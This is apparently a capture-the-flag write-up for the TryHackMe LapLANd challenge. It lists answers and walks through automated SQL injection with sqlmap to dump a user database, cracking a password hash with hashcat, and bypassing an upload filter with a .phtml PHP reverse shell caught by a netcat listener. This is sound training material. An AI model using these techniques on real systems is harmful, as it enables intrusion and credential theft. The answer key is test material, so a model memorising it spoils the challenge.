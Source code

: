 ## Introduction

> Santa’s been inundated with Facebook messages containing Christmas wishlists, so Elf Jr. has taken an online course in developing a North Pole-exclusive social network, LapLANd! Unfortunately, he had to cut a few corners on security to complete the site in time for Christmas and now there are rumours spreading through the workshop about Santa! Can you gain access to LapLANd and find out the truth once and for all?

> [Supporting material available here](./Supporting_Material.pdf).


## Questions

> Which field is SQL injectable? Use the input name used in the HTML code.

td:lr Answer: **log_email**

> What is Santa Claus' email address?

td:lr Answer: **bigman@shefesh.com**

> What is Santa Claus' plaintext password?

td:lr Answer: **saltnpepper**

> Santa has a secret! Which station is he meeting Mrs Mistletoe in?

td:lr Answer: **Waterloo**

> Once you're logged in to LapLANd, there's a way you can gain a shell on the machine! Find a way to do so and read the file in /home/user/

td:lr Answer: **THM{SHELLS_IN_MY_EGGNOG}**

===============================================================================

First let's deploy the machine and get ourselves VPN-ed into the THM network.  
once the machine is deployed, we can start a web browser and navigate to the IP address provided:

![](./res/pic1.png)

To check for SQL Injection, we can either check each given text field individually and manually, or we can invoke the SQLmap to perform automated SQL Injection checks and attacks for us.

> [SQLmap cheatsheet](https://github.com/aramosf/sqlmap-cheatsheet/blob/master/sqlmap%20cheatsheet%20v1.0-SBD.pdf)

We can first perform the following command. The command performs several tasks:

1. first check if any text field on the given URL is SQL injectable.
2. If SQL Injectable, we will try to obtain some basic information about what DBMS is it using, what databases are available etc.

`sqlmap -u <IP>/register.php --dump --forms --crawl=2`

> --dump will give us the DBMS db table entries, --forms will parse and test forms on target URL, --crawl=2 will only crawl target URL to a depth of 2.

Along the way, we will be asked several questions on how to proceed. (just press \<Enter\> for defaults)

First we will know which text field is SQL Injectable:

![](./res/pic2.png)

That will be our first answer: **log_email**


Next we will find is the DBMS that was being used:

![](./res/pic3.png)

We will then be asked if we wanna exploit the following SQL Injection:

![](./res/pic4.png)

With the SQL Injection, SQLmap will enumerate the databases available:

![](./res/pic5.png)

Something interesting here. There is a database called `social` that holds tables like `users`, `comments`, `messages`, `posts`. I believe some of the answers are found in there.

Let's allow the sqlmap to finish dumping the current database `social` for us, and the output can be found in `/home/\<user\>/.sqlmap/output/\<ip\>/dump/social`.

If we look into the `users.csv` file, we will find our santa claus's email address:

![](./res/pic6.png)

Santa's email address: **bigman@shefesh.com**


Next we can see the password is hashed `f1267830a78c0b59acc06b05694b2e28`, so we need to crack it.

`echo 'f1267830a78c0b59acc06b05694b2e28' > hash.txt`
`hashcat -a 0 -m 0 hash.txt <password list>`

We will get the plaintext password: **saltnpepper**


For the next question, we will find the answer in `messages.csv`:

![](./res/pic7.png)

The answer is : **Waterloo**


For the last question, we need to log in to the web page. We can either register our own account, or use Santa Claus's account to log in, since we have his email address and plaintext password.

Once within, we see a `Browse..` button for us to do file upload. From the supporting material, we can copy a `php_reverse_shell.php` file from `/usr/share/webshells/php` directory.

`cp /usr/share/webshells/php/php_reverse_shell.php <path of directory we want to copy to>`

Next we edit the file within the change the $ip and $port of our machine. I'll set $port=4555 in this exercise. [See here for the file we copied and modified](./php-reverse-shell.php).

Before we upload our file, remember to set up our netcat listener:

`nc -nvlp 4555`

Next let's try to upload this file on the webpage:

![](./res/pic8.png)

Ok, we are not allowed to upload php files. So let's try to fiddle around with the extensions by changing it to `.php4`, `.php5`, `.jpg.php`, `.phtml`. Eventually `.phtml` will work.

Look back at our listener once we uploaded our [php-reverse-shell.phtml](./php-reverse-shell.phtml) file. We will see that we have obtained an interactive shell.

So we can go straight to find our flag: `cat /home/user/flag.txt`

![](./res/pic9.png)

And we will get our flag under the `/home/user` directory: **THM{SHELLS_IN_MY_EGGNOG}**

